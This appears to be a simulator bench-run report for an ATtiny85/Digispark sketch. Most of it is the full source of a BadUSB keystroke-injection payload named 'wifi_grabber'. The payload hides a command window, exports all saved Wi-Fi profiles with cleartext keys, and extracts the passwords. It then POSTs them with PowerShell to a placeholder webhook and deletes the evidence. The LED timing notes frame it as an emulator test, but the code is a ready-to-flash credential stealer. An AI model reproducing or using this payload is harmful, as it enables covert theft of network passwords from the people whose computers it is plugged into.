
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 109.7 s:

Timing chart, 0 to 111.2 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 7.3 s, → LOW 90.0 s later, → HIGH 12.3 s later

The sketch:

wifi_grabber.ino
```cpp
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook.
*/

#include "DigiKeyboard.h"
#define KEY_DOWN 0x51
#define KEY_ENTER 0x28

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //start run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=20 lines=20"); //smallest cmd window possible for trying to making it as less noticeable as possible
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu
  delay(200);
  DigiKeyboard.sendKeyStroke(KEY_DOWN);
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.println("cd %temp%"); //Jumping to temporary dir
  DigiKeyboard.delay(300);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri [URL Here! Example: https://webhook.site/???????????] -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(500);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```
